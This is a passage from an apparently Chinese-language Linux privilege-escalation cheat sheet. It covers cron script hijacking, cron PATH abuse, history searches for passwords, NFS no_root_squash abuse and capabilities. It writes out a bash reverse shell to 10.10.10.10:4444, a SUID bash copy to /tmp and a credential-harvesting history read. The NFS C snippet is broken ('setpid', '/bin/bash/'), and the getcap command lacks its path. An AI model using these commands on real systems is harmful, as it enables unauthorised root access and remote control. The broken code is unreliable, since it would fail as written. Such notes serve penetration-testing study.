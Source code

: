 如果登录验证时使用了strcmp函数比较输入字符串和密码是否相同，替换该函数，使得strcmp永远返回0。

### cron job提权

假设root会定期使用`cron`执行`overwrite.sh`这个脚本，找到这个脚本发现该脚本是可编辑的，将该脚本的替换成以下内容
```sh
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

创建一个交互式的bash，并将输入输出重定向到 `/dev/tcp/10.10.10.10/4444` socket连接上。


### cron 环境变量提权

在`/etc/crontab`中显示的环境变量`$PATH`是从`/home/user`找起，而root执行的`overwrite.sh`在`usr/local/bin`中，可以在`/home/user`下写入一个`overwrite.sh`文件来提权
```sh
#!/bin/bash
cp /bin/bash /tmp/rootBash
chmod +xs /tmp/rootBash
```

### 查看历史寻找敏感信息

查看输入命令的历史，看其中是否有密码、敏感信息
```sh
cat ~/.*history
```

### NFS提权
在NFS中，如果配置了`root_squash`，当使用root用户登录访问时，会将root用户转换成匿名用户。此时他的`uid`和`gid`都会变成`nobody`账号的身份。如果配置了`no_root_squash`，则会以`root`身份直接访问。

此时在nfs中创建文件
```cpp
int main() {
    setpid(0);
    setgid(0);
    system("/bin/bash/");
    return 0;
}
```

对他进行编译，等待编译后的文件同步到靶机上，进行执行，即可提权

### Capability提权

从2.1版本以后Linux开始引入capability让普通用户也可干root可做的事。capability可让某个程序拥有超能力而sudo只是针对某个用户/文件赋予它SUID(超能力)。

使用该命令可以找到具有`cap_setuid`能力的程序，具体提权方法可以查找[`gtfobin`](https://gtfobins.github.io/)
```sh
getcap -r 2>/dev/null
```

### 内核提权
